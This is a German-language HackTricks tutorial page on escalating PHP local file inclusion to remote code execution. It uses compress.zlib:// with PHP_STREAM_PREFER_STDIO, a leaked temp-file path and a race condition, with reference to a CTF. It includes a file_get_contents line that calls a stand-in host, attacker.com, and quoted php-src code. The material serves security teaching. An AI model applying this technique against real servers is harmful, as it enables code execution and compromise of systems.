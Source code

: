 # LFI2RCE Via compress.zlib + PHP\_STREAM\_PREFER\_STUDIO + Path Disclosure

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

### `compress.zlib://` und `PHP_STREAM_PREFER_STDIO`

Eine Datei, die mit dem Protokoll `compress.zlib://` und dem Flag `PHP_STREAM_PREFER_STDIO` geöffnet wurde, kann weiterhin Daten, die später an die Verbindung ankommen, in dieselbe Datei schreiben.

Das bedeutet, dass ein Aufruf wie:
```php
file_get_contents("compress.zlib://http://attacker.com/file")
```
Wird eine Anfrage an http://attacker.com/file senden, dann könnte der Server die Anfrage mit einer gültigen HTTP-Antwort beantworten, die Verbindung offen halten und später zusätzliche Daten senden, die ebenfalls in die Datei geschrieben werden.

Sie können diese Informationen in diesem Teil des php-src-Codes in main/streams/cast.c sehen:
```c
/* Use a tmpfile and copy the old streams contents into it */

if (flags & PHP_STREAM_PREFER_STDIO) {
*newstream = php_stream_fopen_tmpfile();
} else {
*newstream = php_stream_temp_new();
}
```
### Race Condition zu RCE

[**Dieses CTF**](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer) wurde mit dem vorherigen Trick gelöst.

Der Angreifer wird den **Opfer-Server dazu bringen, eine Verbindung zu öffnen, um eine Datei vom Server des Angreifers zu lesen** unter Verwendung des **`compress.zlib`** Protokolls.

**Während** diese **Verbindung** besteht, wird der Angreifer den **Pfad** zur erstellten temporären Datei **exfiltrieren** (er wird vom Server geleakt).

**Während** die **Verbindung** noch offen ist, wird der Angreifer eine **LFI ausnutzen, um die temporäre Datei** zu laden, die er kontrolliert.

Es gibt jedoch eine Überprüfung im Webserver, die **verhindert, dass Dateien geladen werden, die `<?` enthalten**. Daher wird der Angreifer eine **Race Condition** ausnutzen. In der noch offenen Verbindung wird der **Angreifer** die **PHP-Nutzlast NACHDEM** der **Webserver** **überprüft** hat, ob die Datei die verbotenen Zeichen enthält, aber **BEVOR** sie ihren Inhalt lädt, **senden**.

Für weitere Informationen siehe die Beschreibung der Race Condition und das CTF in [https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
